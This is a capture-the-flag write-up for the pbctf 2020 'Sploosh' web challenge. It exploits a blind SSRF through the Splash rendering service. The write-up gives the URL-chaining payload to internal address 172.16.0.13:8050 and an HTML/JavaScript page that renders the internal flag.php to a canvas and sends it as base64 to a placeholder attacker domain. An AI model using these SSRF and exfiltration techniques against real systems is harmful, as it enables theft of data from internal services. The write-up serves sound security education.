 ## Sploosh - Web challenge - pbctf 2020
## Author: p4w@beerpwn
### Twitter: https://twitter.com/p4w16

## TL;DR
This challenge is about exploiting an __SSRF__ vulnerability along with __Splash__ (javascript rendering service).

## Challenge description
![img desc](screen/desc.png)


## Solution
Once connected to the challenge, the index page show a link where it is possible to download the source code.
Here it follow the docker configuration file for the challenge:

![img desc](screen/docker_compose.png)

The application is pretty simple, basically we have 3 file: __index.php__, __flag.php__ and __api.php__.
The __index.php__ page doesn't contain anything important, so I'll only show the __api.php__ and __flag.php__ pages.
<br>

This is the source for __api.php__
![img desc](screen/api.png)

and this the source code of __flag.php__
![img desc](screen/flag_source.png)

As we can see in __api.php__, it's possible to control the `url` GET parameter and if it is passed, then script will execute `file_get_contents` with the `http` wrapper to the host `splash`.
With a bit of googling it's possible to discover the service behind the scene. The repository of the splash project can be found here
* https://github.com/scrapinghub/splash

As it is possible to observe that to get the flag it's necessary to request the `flag.php` file, but the flag will be printed out only if the remote address that is requesting the resource is __172.16.0.13__ or __172.16.0.14__. At this point and considering what we have I start to thinking that I need some kind of __SSRF__ to retrieve the flag. Trigger the __SSRF__ is pretty easy in this situation, since no check is made on the `url` parameter, we can just pass arbitrary address in it. Problem is that the __SSRF__ is blind, I'm going to show what I mean with some screen.

![img desc](screen/google_req.png)

Here for example I used google.com domain as endpoint, but in the response we don't have all the page contents retrieved from google, instead only the geometry is present. At this point I start to looking more closely to the __Splash__ documentation (https://splash.readthedocs.io/en/stable/api.html).
Also referring to the `api.php` resource, it's possible to notice that the `url` parameter is __urlencoded__ before concatenation, this stop us to directly inject additional parameters on the query itself (`& -> %26`).
By reading the documentation we can notice that the __Splash API__ can be used along with many parameters. The first one that caught my attention was the `lua_source` parameter that can be passed to the `/execute` API endpint to run custom lua script. Searching more information about that I discover this article https://paper.seebug.org/354/ that explain how __Splash__ works. One thing that tell us is that we can't actually run arbitrary lua code since is sand-boxed for security reason.
Before going more in deep on the __Splash API__, let's see how it is possible to full control a request over the splash endpoint by exploiting the `url` parameter. The trick is simple we can just pass a full request to the internal address:
* `url=http://172.16.0.13:8050/render.html%3furl=http://example.com/`

With this payload it is possible to force the the application to make a request to the `render.html` API endpoint that will generate another request to the domain `example.com`. Let's verify that:

![img desc](screen/webhook_req.png)
![img desc](screen/webhook.png)

Works fine, at this point I know that I was able to to fully control a request to the splash endpoint along with any parameter I want to use. The first idea was to use the `lua_source` parameter to inject some lua script to leak the flag. I tried that solution, unfortunately I fail so I start to read more documentation.
The __Splash__ service have many endpoints that can be used to fetch pages such as `/render.jpeg`.

![img desc](screen/render_jpeg_docs.png)

At this point I start to think for a chain that can be used to retrieve the flag by using this functionality. The basic idea that I had was to embed an `<img>` tag in a page controlled by me and pointing to the `/render.jpeg` endpoint with the `url` parameter `http://172.16.0.14/flag.php`. After that I can leak the contents with some JavaScript code.

This is the code I used to do that:

```
<html>
  <body>
    <script>
      function exfil(){
        var c = document.getElementById("myCanvas");
        var ctx = c.getContext("2d");
        var img = document.getElementById("preview");
        ctx.drawImage(img, 30, 30);
        var i = new Image();
        i.src="http://<yourdomain-here>:9999/exfil?data="+btoa(c.toDataURL());
      }
    </script>
    <img id="preview" src="http://172.16.0.13:8050/render.jpeg?url=http://172.16.0.14/flag.php" onload="exfil()">
    <canvas id="myCanvas" />
  </body>
</html>
```

To make this work, I just play a bit with the `api.php` page and come up with this payload:
```
GET /api.php?url=http://172.16.0.13:8050/render.html%3furl=http://<yourdomain-here>:8000/exploit.php%26allowed_domains=beerpwn.it HTTP/1.1
...
```
basically the first request goes to the `/render.json` endpoint that is used inside the `api.php`, then a request for `/render.html` is generated along with the `url` parameter pointing to my domain where I hosted the page showed before is hosted.
You can look the exploit working during the CTF in the screenshots below.

![img desc](screen/SSRF.png)
![img desc](screen/recv_connection.png)
![img desc](screen/flag_recv.png)

After that we can just decode the base64 and we get the flag rendered in a jpeg file!

![img desc](screen/flag.png)
